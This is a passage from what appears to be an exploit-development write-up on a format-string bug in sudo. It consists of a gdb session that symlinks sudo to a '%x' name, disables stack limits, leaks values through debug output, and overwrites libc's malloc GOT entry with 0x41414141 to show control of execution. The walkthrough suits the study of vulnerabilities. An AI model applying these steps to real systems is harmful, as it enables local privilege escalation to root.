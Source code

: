 <pre class="brush: plain; title: ; notranslate" title=""># ln -s /usr/bin/sudo ./%x
# ulimit -s unlimited
# gdb -q ./%x
gdb$ list sudo.c:204
199	    memset(&user_details, 0, sizeof(user_details));
200	    user_info = get_user_info(&user_details);
201
202	    /* Parse command line arguments. */
203	    sudo_mode = parse_args(argc, argv, &nargc, &nargv, &settings, &env_add);
204	    sudo_debug(9, "sudo_mode %d", sudo_mode);
205
206	    /* Print sudo version early, in case of plugin init failure. */
207	    if (ISSET(sudo_mode, MODE_VERSION)) {
208		printf("Sudo version %sn", PACKAGE_VERSION);

gdb$ break sudo.c:207
gdb$ run -D9
4000e036: settings: 9=en_US.UTF-8
4000e0bc: settings: %x=en_US.UTF-8
4000e0c5: settings: true=en_US.UTF-8
4000e0fc: settings: 10.0.2.15/255.255.255.0 fe80::a00:27ff:fe9e:e68c/ffff:ffff:ffff:ffff::=en_US.UTF-8
a0001: sudo_mode -1078177084
Breakpoint 1, main (argc=0x2, argv=0xbfbc5394, envp=0xbfbc53a0) at ./sudo.c:207
207	    if (ISSET(sudo_mode, MODE_VERSION)) {

gdb$ vmmap libc
Start	End	Perm	Name
0x400a8000 0x4024d000 r-xp /lib/libc-2.14.90.so
0x4024d000 0x4024f000 r--p /lib/libc-2.14.90.so
0x4024f000 0x40250000 rw-p /lib/libc-2.14.90.so
gdb$ x/8wx 0x4024f000
0x4024f000:	0x401da990	0x40122490	0x40121e10	0x401227a0
0x4024f010:	0x4013fc60	0x40122fb0	0x40027f20	0x401223e0
gdb$ x/8i 0x40121e10
0x40121e10 &lt;__GI___libc_malloc&gt;:	sub    esp,0x3c
0x40121e13 &lt;__GI___libc_malloc+3&gt;:	mov    DWORD PTR [esp+0x2c],ebx
0x40121e17 &lt;__GI___libc_malloc+7&gt;:	call   0x401db813 &lt;__i686.get_pc_thunk.bx&gt;
0x40121e1c &lt;__GI___libc_malloc+12&gt;:	add    ebx,0x12d1d8
0x40121e22 &lt;__GI___libc_malloc+18&gt;:	mov    DWORD PTR [esp+0x30],esi
0x40121e26 &lt;__GI___libc_malloc+22&gt;:	mov    esi,DWORD PTR [esp+0x40]
0x40121e2a &lt;__GI___libc_malloc+26&gt;:	mov    DWORD PTR [esp+0x34],edi
0x40121e2e &lt;__GI___libc_malloc+30&gt;:	mov    DWORD PTR [esp+0x38],ebp

gdb$ set *0x4024f008=0x41414141
gdb$ continue
Program received signal SIGSEGV, Segmentation fault.
0x400bee20 &lt;realloc@plt+0&gt;:	jmp    DWORD PTR [ebx+0x10]
0x400bee26 &lt;realloc@plt+6&gt;:	push   0x8
0x400bee2b &lt;realloc@plt+11&gt;:	jmp    0x400bee00
=&gt; 0x400bee30 &lt;malloc@plt+0&gt;:	jmp    DWORD PTR [ebx+0x14]
0x400bee36 &lt;malloc@plt+6&gt;:	push   0x10
0x400bee3b &lt;malloc@plt+11&gt;:	jmp    0x400bee00
0x400bee40 &lt;memalign@plt+0&gt;:	jmp    DWORD PTR [ebx+0x18]
0x400bee46 &lt;memalign@plt+6&gt;:	push   0x18
0x400bee30 in malloc@plt () from /lib/libc.so.6
gdb$ x/x $ebx+0x14
0x4024f008:	0x41414141
</pre>


 [1]: http://en.wikipedia.org/wiki/Position-independent_code#Position-independent_executables